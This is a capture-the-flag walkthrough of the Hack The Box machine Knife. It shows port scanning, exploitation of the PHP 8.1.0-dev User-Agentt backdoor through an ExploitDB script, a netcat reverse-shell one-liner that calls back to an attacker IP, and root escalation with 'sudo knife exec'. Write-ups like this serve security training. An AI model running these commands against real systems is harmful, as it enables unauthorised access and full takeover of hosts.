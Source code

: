 # HTB - Knife

#### Ip: 10.10.10.242
#### Name: Knife
#### Rating: Easy

----------------------------------------------------------------------

![Knife.png](../assets/knife_assets/Knife.png)

### Enumeration

I'll begin enumerating this box by scanning all TCP ports with Nmap and use the `--min-rate 10000` flag to speed things up:

```text
┌──(ryan㉿kali)-[~/HTB/Knife]
└─$ sudo nmap -p- --min-rate 10000 10.10.10.242
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-08 11:28 CDT
Nmap scan report for 10.10.10.242
Host is up (0.071s latency).
Not shown: 65384 closed tcp ports (reset), 149 filtered tcp ports (no-response)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 23.11 seconds
```  

Lets dive a bit deeper and scan ports 22 and 80 using the `-sC` and `-sV` flags to use basic scripts and to enumerate versions:

```text
┌──(ryan㉿kali)-[~/HTB/Knife]
└─$ sudo nmap -sC -sV -T4 10.10.10.242 -p 22,80
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-08 11:30 CDT
Nmap scan report for 10.10.10.242
Host is up (0.068s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 be549ca367c315c364717f6a534a4c21 (RSA)
|   256 bf8a3fd406e92e874ec97eab220ec0ee (ECDSA)
|_  256 1adea1cc37ce53bb1bfb2b0badb3f684 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title:  Emergent Medical Idea
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.95 seconds
```

Because we will most likely get a foothold using a web based exploit, it never hurts to kick of a Nikto scan, and see if there is some low hanging fruit.

Looking over the results we can see Nikto identified PHP/8.1.0-dev. From past experience I recall there may have been a vulnerability or a backdoor with this version.

![nikto.png](../assets/knife_assets/nikto.png) 

Heading over to Google confirms there is indeed a backdoor in this version, and it is easily exploitable. 

While is is definitely possible to exploit this backdoor manually in BurpSuite, today I'm going to utilize this exploit found on ExploitDB: https://www.exploit-db.com/exploits/49933. 

In the comments the exploit mentions:

"An early release of PHP, the PHP 8.1.0-dev version was released with a backdoor on March 28th 2021, but the backdoor was quickly discovered and removed. If this version of PHP runs on a server, an attacker can execute arbitrary code by sending the User-Agentt header.
The following exploit uses the backdoor to provide a pseudo shell on the host."

Taking a closer look at the exploit we can see that we will be appending a cmd to the user-agentt field:

![user-agentt.png](../assets/knife_assets/user-agentt.png)

Let's fire off the exploit and try and get onto the box.

### Exploitation

After copying the script to my exploits folder, I execute the exploit and get a pseudo-shell as user James. This is all well and good, but I'd prefer a proper reverse shell, that way I can keep some persistence on the box in case the pseudo-shell crashes.

To do this I simply set up a netcat listener and issue this one-liner:

```text
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.11 443 >/tmp/f
```

I can now stabilize the shell using Python:

```text
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

And grab the first flag:

![user_flag.png](../assets/knife_assets/user_flag.png)

### Privilege Escalation

Running `sud -l` I can see that user James can run `knife` with root permissions:

```text
james@knife:~$ sudo -l
sudo -l
Matching Defaults entries for james on knife:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife
```

According to the man-pages:

"knife  is a command-line tool that provides an interface between a local chef-repo and the Chef server."

Lets take a look at https://gtfobins.github.io/ to see if we can find a way to exploit this:

![gtfobins.png](../assets/knife_assets/gtfobins.png)

Cool, so looks like we simply have to run `sudo knife exec -E 'exec "/bin/sh"'` to escalate to root:

```text
james@knife:~$ whoami
whoami
james
james@knife:~$ 

    sudo knife exec -E 'exec "/bin/sh"'


james@knife:~$ 
james@knife:~$     sudo knife exec -E 'exec "/bin/sh"'
# # whoami
whoami
root
```

Nice! All that's left to do now is grab the root flag!

![root_flag.png](../assets/knife_assets/rot_flag.png)

Thanks for following along!

-Ryan

--------------------------------------------------------------------------
